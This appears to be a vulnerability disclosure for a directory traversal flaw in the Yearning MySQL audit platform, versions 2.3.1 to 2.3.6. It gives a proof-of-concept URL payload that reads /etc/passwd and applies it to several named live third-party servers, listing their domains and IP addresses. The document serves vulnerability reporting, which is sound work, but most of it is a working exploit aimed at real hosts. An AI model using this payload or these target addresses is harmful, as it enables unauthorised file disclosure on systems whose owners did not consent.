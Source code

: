 # Yearning have directory traversal vulnerability

## Overview

Manufacturer's website information：http://yearning.io/

## 1. Affected version

version: v2.3.1 Interstellar GA 

version: v 2.3.2 Interstellar GA 

version: v 2.3.4 Neptune 

version: v 2.3.5 Neptune

version: v 2.3.6 Neptune

## 2.Vulnerability details

There are about hundreds of servers affected by vulnerabilities.

![image-20220311212732755](img/image-20220311212732755.png)

POC

```
/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```



version: v2.3.1 Interstellar GA 

https://mysql.zb-sx.cn/#/login

![image-20220308110341311](img/image-20220308110341311.png)

https://mysql.zb-sx.cn/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308110402638](img/image-20220308110402638.png)



version: v 2.3.2 Interstellar GA 

http://18.162.92.125/#/login

![image-20220308132832379](img/image-20220308132832379.png)

http://18.162.92.125/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308132924261](img/image-20220308132924261.png)

version: v 2.3.4 Neptune

![image-20220308133058103](img/image-20220308133058103.png)

http://47.93.26.226:9000/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308133131271](img/image-20220308133131271.png)

version: v 2.3.5 Neptune

http://39.100.157.58:8001/#/login

![image-20220308133321571](img/image-20220308133321571.png)

http://39.100.157.58:8001/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308133346233](img/image-20220308133346233.png)

version: v 2.3.6 Neptune

http://182.92.66.166:8086/#/login

![image-20220308133438261](img/image-20220308133438261.png)

http://182.92.66.166:8086/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308133520192](img/image-20220308133520192.png)



## Vulnerability impact

Yearning is a MySQL audit platform. There is a directory traversal vulnerability in Yearning, which can be used by attackers to obtain sensitive information.

